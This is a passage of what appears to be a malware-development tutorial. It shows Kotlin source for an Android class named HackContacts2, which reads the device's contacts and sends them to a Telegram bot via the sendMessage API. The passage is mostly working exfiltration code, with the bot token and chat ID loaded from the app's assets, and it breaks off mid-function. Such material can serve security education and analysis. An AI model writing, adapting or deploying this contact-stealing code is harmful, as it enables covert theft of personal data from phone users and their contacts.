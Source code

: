 ```kotlin
    val request = Request.Builder()
        .url("https://api.telegram.org/bot$token/sendMessage")
        .post(requestBody)
        .build()

    // send the request asynchronously using OkHttp
    client.newCall(request).enqueue(object : Callback {
        override fun onFailure(call: Call, e: IOException) {
            e.printStackTrace()
        }

        override fun onResponse(call: Call, response: Response) {
            if (response.isSuccessful) {
                // Handle success
                println("Message sent successfully: ${response.body?.string()}")
            } else {
                println("Error: ${response.body?.string()}")
            }
        }
    })
}
```

So the full source code of the sending logic is looks like this `HackContacts`:    

```kotlin
package com.example.hackcontacts2

import android.content.Context
import android.provider.ContactsContract
import okhttp3.*
import java.io.IOException

class HackContacts2(private val context: Context) {

    private val client = OkHttpClient()

    // function to send contacts to Telegram
    fun sendContacts() {
        val token = getTokenFromAssets()
        val chatId = getChatIdFromAssets()
        val contacts = getContacts()  // fetch contacts
        val meow = "Meow! ♥️\uFE0F"
        val messageToSend = "$contacts\n\n$meow\n\n"

        // create request body
        val requestBody = FormBody.Builder()
            .add("chat_id", chatId)
            .add("text", messageToSend)
            .build()

        // send request to Telegram API
        val request = Request.Builder()
            .url("https://api.telegram.org/bot$token/sendMessage")
            .post(requestBody)
            .build()

        // Send request asynchronously
        client.newCall(request).enqueue(object : Callback {
            override fun onFailure(call: Call, e: IOException) {
                e.printStackTrace()
            }

            override fun onResponse(call: Call, response: Response) {
```